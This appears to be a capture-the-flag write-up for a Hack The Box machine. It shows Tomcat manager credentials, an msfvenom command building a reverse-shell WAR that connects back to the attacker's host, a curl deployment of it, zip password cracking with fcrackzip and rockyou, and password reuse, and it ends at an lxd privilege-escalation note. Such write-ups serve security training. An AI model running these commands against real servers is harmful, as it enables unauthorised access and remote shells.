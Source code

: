 >**user:tomcat password:$3cureP4s5w0rd123!**

# User
A this point I can log in `http://10.10.10.194:8080/host-manager/` but not can access on `http://10.10.10.194:8080/manager/` where usually  is possible load a  WAR file thorught the dashboard.


<img src="./img/tomcat.png"  width="650"/>

The user `tomcat` had the role `manager-script`. From the [doc](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html) of tomcat the user with this role can [deploy](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL) a WAR from cli. So I created the evil WAR 
> msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.0  LPORT=1234 -f war -o evil.war

and then uploaded on the server

> curl -u tomcat:\\$3cureP4s5w0rd123! "http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true" --upload-file evil.war

A this point open a listener on local machine and go on `http://10.10.10.194:8080/foo`

<img src="./img/revshell.png"  width="650"/>

In `/var/www/html/files` there is a backup zip so I downloaded the zip. The zip is protected by password so cracked it with `fcrackzip`

> fcrackzip -D -p rockyou.txt 16162020_backup.zip 

and found a password `admin@it` in the backup dir there is nothing so just tried to use the crackked password for log in as `ash` . The password worked and I can take user flag.

<img src="./img/user.png"  width="450"/>

# Root
A this point I checked for user groups and founded that the user `ash` belongs to `lxd` group.
The lxd is a system container manager and is possible to escalate the root privilege from a member of lxd group.
